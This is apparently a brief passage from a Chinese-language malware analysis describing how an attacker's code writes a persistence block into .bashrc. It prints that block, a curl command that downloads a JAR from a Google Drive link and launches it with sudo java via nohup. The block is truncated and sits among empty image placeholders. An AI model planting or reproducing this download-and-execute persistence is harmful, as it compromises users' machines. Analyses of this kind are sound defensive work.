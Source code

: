 ![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
  
  
然后，攻击者将下列配置信息写入“.bashrc”配置文件中。其功能是从特定的GoogleDrive公共地址下载后续载荷到“$HOME/.config/x96-dependencies.jar”，然后利用自带的java命令执行“x96-dependencies.jar”。  
  
<table><tbody><tr><td data-colwidth="576"><span lang="EN-US" style="font-size:10.5pt;mso-bidi-font-size:
11.0pt;font-family:DengXian;mso-ascii-theme-font:minor-latin;mso-fareast-theme-font:
minor-fareast;mso-hansi-theme-font:minor-latin;mso-bidi-font-family:&#34;Times New Roman&#34;;mso-bidi-theme-font:minor-bidi;mso-ansi-language:EN-US;mso-fareast-language:
ZH-CN;mso-bidi-language:AR-SA;" data-pm-slice="0 0 []" data-mpa-action-id="mbhjqim08wv"><span mpa-font-style="mbhjqil1105a" style="font-family: &#34;mp-quote&#34;, -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 15px;" data-mpa-action-id="mbhjqlnb1tgh" data-pm-slice="0 0 []"><span leaf="" data-mpa-action-id="mbhjqlm318et">\nif [ ! -f &#34;%s&#34; ]; then\n</span><span style="mso-spacerun:yes;"><span leaf="">    </span></span><span leaf="">curl -L -o &#34;https://drive.google.com/uc?export=download&amp;id=1ZreMbUude-F2zLWWeO2FNiKU7I7v7aSe&#34; &#34;$HOME/.config/x96-dependencies.jar&#34; &gt;/dev/null 2&gt;&amp;1\n</span><span style="mso-spacerun:yes;"><span leaf="">    </span></span><span leaf="">cd \&#34;$HOME\&#34;\n</span><span style="mso-spacerun:yes;"><span leaf="">    </span></span><span leaf="">if ! pgrep -x \&#34;x96coreinfo\&#34; &gt;/dev/null; then\n</span><span style="mso-spacerun:yes;"><span leaf="">        </span></span><span leaf="" data-mpa-action-id="mbhjqlm3lqt">nohup sh -c &#39;cd \&#34;$HOME/.config\&#34; &amp;&amp; sudo java -jar %s &gt; /de</span></span></span></td></tr></tbody></table>  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6CNEHNicic4PrO9dqrxNjD9acS5OdyEZZ764QoicPueWOt7RKic033I4Jwp6Egnj05WZzeUCBAUl2ibRwTVaD3aKv6A/640?wx_fmt=png "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
  